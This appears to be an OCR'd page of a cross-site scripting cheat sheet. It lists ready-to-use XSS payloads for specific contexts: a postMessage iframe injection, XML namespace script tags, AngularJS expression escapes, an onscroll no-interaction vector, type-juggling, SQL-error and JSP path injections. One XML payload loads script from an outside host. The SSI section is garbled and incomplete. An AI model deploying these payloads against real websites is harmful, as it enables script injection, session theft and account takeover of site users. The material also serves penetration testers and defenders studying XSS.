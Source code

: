 ```
## Javascript postMessage() DOM Injection (with Iframe)
Use when there’s a `message` event listener like in `window.addEventListener(‘message’, ...)`
in javascript code without a check for origin. Target must be able to be framed (X-Frame 
Options header according to context). Save as HTML file (or using data:text/html) providing 
TARGET_URL and INJECTION (a XSS vector or payload).
```
<iframe src=TARGET_URL onload="frames[0].postMessage('INJECTION','*')">
```

## XML-Based XSS
Use to inject XSS vector in a XML page (content types text/xml or application/xml). 
Prepend a `-->` to payload if input lands in a comment section or `]]>` if input lands in a 
CDATA section.
```
<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>
<x:script xmlns:x="http://www.w3.org/1999/xhtml" src="//brutelogic.com.br/1.js"/>
```

## AngularJS Injections (v1.6 and up)
Use when there’s an AngularJS library loaded in page, inside an HTML block with ng-app 
directive (1st payload) or creating your own (2nd one).
```
{{$new.constructor('alert(1)')()}}
<x ng-app>{{$new.constructor('alert(1)')()}}
```

## Onscroll Universal Vector
Use to XSS without user interaction when using onscroll event handler. It works with 
address, blockquote, body, center, dir, div, dl, dt, form, li, menu, ol, p, pre, ul, and h1 to h6 
HTML tags.
```
<p style=overflow:auto;font-size:999px onscroll=alert(1)>AAA<x/id=y></p>#y
```

## Type Juggling
Use to pass an `if` condition matching a number in loose comparisons. 
```
1<svg onload=alert(1)>
1"><svg onload=alert(1)>
```

## XSS in SSI
Use when there’s a Server-Side Include (SSI) injection.
<>
SQLi Error-Based XSS
Use in endpoints where a SQL error message can be triggered (with a quote or backslash).
```'1<svg onload=alert(1)>
<svg onload=alert(1)>\
```


## Injection in JSP Path
Use in JSP-based applications in the path of URL.
```
//DOMAIN/PATH/;<svg onload=alert(1)>
//DOMAIN/PATH/;"><svg onload=alert(1)>
```
